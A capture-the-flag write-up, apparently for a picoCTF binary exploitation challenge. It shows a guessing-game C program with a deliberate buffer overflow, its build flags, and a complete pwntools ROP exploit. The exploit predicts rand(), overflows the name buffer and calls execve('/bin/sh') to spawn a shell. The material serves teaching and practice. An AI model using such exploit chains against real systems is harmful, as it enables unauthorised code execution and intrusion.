




The binary can be downloaded here.
The source code of the problem and the Makefile that came along with it is as below.
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#define BUFSIZE 100
long increment(long in) {
return in + 1;
}
long get_random() {
return rand() % BUFSIZE;
}
int do_stuff() {
long ans = get_random();
ans = increment(ans);
int res = 0;
printf("What number would you like to guess?\n");
char guess[BUFSIZE];
fgets(guess, BUFSIZE, stdin);
long g = atol(guess);
if (!g) {
printf("That's not a valid number!\n");
} else {
if (g == ans) {
printf("Congrats! You win! Your prize is this print statement!\n\n");
res = 1;
} else {
printf("Nope!\n\n");
}
}
return res;
}
void win() {
char winner[BUFSIZE];
printf("New winner!\nName? ");
fgets(winner, 360, stdin);
printf("Congrats %s\n\n", winner);
}
int main(int argc, char **argv){
setvbuf(stdout, NULL, _IONBF, 0);
// Set the gid to the effective gid
// this prevents /bin/sh from dropping the privileges
gid_t gid = getegid();
setresgid(gid, gid, gid);
int res;
printf("Welcome to my guessing game!\n\n");
while (1) {
res = do_stuff();
if (res) {
win();
}
}
return 0;
}
all:
gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln vuln.c
clean:
rm vuln
As you can see from the Makefile above, the program was compiled with no stack protectors and no PIE enabled. And indeed by running checksec I could
confirm that PIE wasn't enabled for the binary. However as you can see from the image below checksec detected a stack canary which was perplexing as
-fno-stack-protector was enabled.
The -static flag suggested that the every single library function normally dynamically linked via the GOT table was statically linked.
So I inferred that while the functions natively residing in the binary such as do_stuff didn't have a stack canaries, statically linked
library functions still had them, causing checksec to detect them. And indeed disassembling the binary and inspecting the functions confirmed it.

Observing the source code I could see a buffer overflow vulnerability. Sine the the binary had no PIE enabled, I decided to craft an ROP chain that
would store the string "/bin/sh\x00" somewhere in .bss, and then call the system call execve("/bin/sh", NULL, NULL).
Using readelf I could locate the address of .bss.

And via ROPgadget I found a gadget that could write 8 bytes to somewhere in memory.

The other necessary gadgets were found using pwntools's ROP module.

The exploit code is as below.
#!/usr/bin/env python3
from pwn import *
from ctypes import CDLL
def ex():
# context.log_level = "debug"
rop = ROP("./vuln")
print(rop.rdi)
print(rop.rsi)
print(rop.rdx)
print(rop.rax)
print(rop.syscall)
rdi_gadget = 0x4006a6
rsi_gadget = 0x410b93
rdx_gadget = 0x410602
rax_gadget = 0x4005af
mov_mrdi_rsi = 0x4850c5
syscall_gadget = 0x40138c
bss_addr = 0x6bc3a0
libc = CDLL("libc.so.6")
p = process("./vuln")
# p = remote("shape-facility.picoctf.net", 57523)
# pause()
p.recvuntil(b"guess?\n")
ans = libc.rand() % 100 + 1
p.sendline(b"%d" % ans)
p.recvuntil(b"Name? ")
p.sendline(b"A"*0x70 + b"B"*8
+ p64(rdi_gadget) + p64(bss_addr)
+ p64(rsi_gadget) + b"/bin/sh\x00"
+ p64(mov_mrdi_rsi)
+ p64(rdi_gadget) + p64(bss_addr)
+ p64(rsi_gadget) + p64(0x0)
+ p64(rdx_gadget) + p64(0x0)
+ p64(rax_gadget) + p64(59)
+ p64(syscall_gadget))
p.interactive()
if __name__ == "__main__": ex()